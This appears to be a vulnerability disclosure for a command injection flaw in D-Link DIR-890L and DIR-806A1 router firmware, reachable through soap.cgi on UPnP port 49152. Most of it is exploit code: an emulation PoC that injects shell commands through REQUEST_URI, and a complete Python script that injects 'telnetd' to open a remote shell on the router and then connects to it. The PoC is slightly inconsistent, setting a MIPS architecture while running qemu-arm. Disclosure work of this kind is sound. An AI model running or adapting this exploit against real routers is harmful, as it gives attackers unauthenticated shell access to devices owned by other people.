



# Information


**Vendor of the products:**   D-Link

**Vendor's website:** [D-Link | Welcome](https://www.dlink.com.cn/)

**Reported by:** Chen Bo ([2804894416@qq.com](mailto:2804894416@qq.com))

**Affected products:** DIR-890 L A1  DIR-806A1

**Affected firmware version:** <=108B03  <=100CNb11

**Firmware download address:** https://www.dlink.com.cn/techsupport/download.ashx?file=4927 

​													https://www.dlink.com.cn/techsupport/download.ashx?file=63

# Overview

The router D-Link DIR-890 L 108b03 and  DIR-806A1 100CNb11 has a serious command injection vulnerability. Attackers can set the request header through the path /htdocs/soap.cgi and inject commands through the function `sub_175C8()` to achieve remote command execution and even cause serious consequences.The attackers can exploit the vulnerability to carry out arbitrary code by means of sending a specially constructed payload to port 49152.

# Vulnerability details

The prerequisite is to reasonably control the fields through these branches.



The following command splicing is performed on the variable v12 and then the command is executed


# POC

```py
from gt import *
con("mips")
post_content = "DDDdd"
io = process(b"""
    qemu-arm -L ./ \
    -0 "soap.cgi" \
    -E REQUEST_METHOD="POST" \
    -E HTTP_SOAPACTION="aaaaa#bbbbb" \
    -E CONTENT_TYPE="text/xml" \
    -E REQUEST_URI="aaa?service=bb;ls;id;" \
    -E SERVER_ID=111 \
    -E CONTENT_LENGTH=5 \
    -g 1234 ./htdocs/cgibin
""", shell = True)
io.send(post_content)

io.interactive()
```




```py
#!/usr/bin/env python3
"""
UPnP Exploit Script
This script exploits a vulnerable UPnP service to open a telnet shell.
"""

import socket
import os
import time
import sys

# Configuration
HOST = '192.168.0.1'       # Target host IP
UPNP_PORT = 49152          # UPnP service port
SHELL_PORT = 1337          # Port to open for telnet shell
TIMEOUT = 5                # Connection timeout in seconds
WAIT_TIME = 5              # Time to wait for shell to open

def create_exploit_request(host, port, shell_port):
    """Create the malicious UPnP request payload."""
    request = f"POST /soap.cgi?service=;telnetd -p {shell_port}; HTTP/1.1\r\n"
    request += f"Host: {host}:{port}\r\n"
    request += "Content-Type: text/xml\r\n"
    request += "Content-Length: 100\r\n"
    request += "SOAPAction: \"urn:schemas-upnp-org:service:serviceType:v#actionName\"\r\n\r\n"
    return request.encode()

def main():
    try:
        # Create and configure socket
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.settimeout(TIMEOUT)

        print(f"[*] Connecting to {HOST}:{UPNP_PORT}")
        sock.connect((HOST, UPNP_PORT))

        # Create and send exploit request
        request = create_exploit_request(HOST, UPNP_PORT, SHELL_PORT)
        print("[*] Sending payload")
        sock.send(request)
        sock.close()

        print(f"[*] Waiting {WAIT_TIME} seconds for shell to open...")
        time.sleep(WAIT_TIME)

        print(f"[*] Attempting to connect to shell on {HOST}:{SHELL_PORT}")
        os.system(f'telnet {HOST} {SHELL_PORT}')

    except socket.error as e:
        print(f"[!] Socket error: {e}", file=sys.stderr)
        sys.exit(1)
    except Exception as e:
        print(f"[!] Error: {e}", file=sys.stderr)
        sys.exit(1)

if __name__ == "__main__":
    main()
```

